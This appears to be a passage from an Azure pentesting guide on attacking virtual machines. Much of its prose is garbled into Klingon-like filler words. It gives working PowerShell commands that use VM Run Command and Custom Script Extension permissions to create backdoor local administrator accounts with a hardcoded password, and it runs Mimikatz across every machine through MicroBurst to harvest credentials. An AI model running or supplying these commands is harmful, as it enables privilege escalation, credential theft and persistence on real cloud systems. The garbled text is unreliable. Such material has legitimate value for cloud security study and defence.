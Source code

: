 ### **AAD Login VM**

AzureAD Daq 'e' vItlhutlh vItlhutlh. 'ej 'oH **linux VM** vItlhutlh: `ssh username@azure-corp.com@1.1.1.1` (vItlhutlh login vItlhutlh 'e' vItlhutlh email **azurecorp** vItlhutlh) 'ej 'oH error:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

**Qapla'** **ghItlh** [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) **ghaH** **'ej** **code** **jatlh**, **email** **'ej** **password** **credentials** **ghaH** **'ej** **SSH** **connect** **'ej** **(user** **permissions** **SuvtaHvIS** **ghaH**: `Virtual Machine Administrator Login` **'ej** `Virtual Machine User Login` **role**).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Qap Custom Script Extension**

Azure virtual machine (VM) extensions are **lo'wI'** that provide post-deployment configuration and automation **nIvbogh** on **Azure VMs**. For example, if a virtual machine requires software installation, antivirus protection, or the ability to run a script inside it, you can use a VM extension.

Therefore, if you have access to write it, you can execute arbitrary code:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)
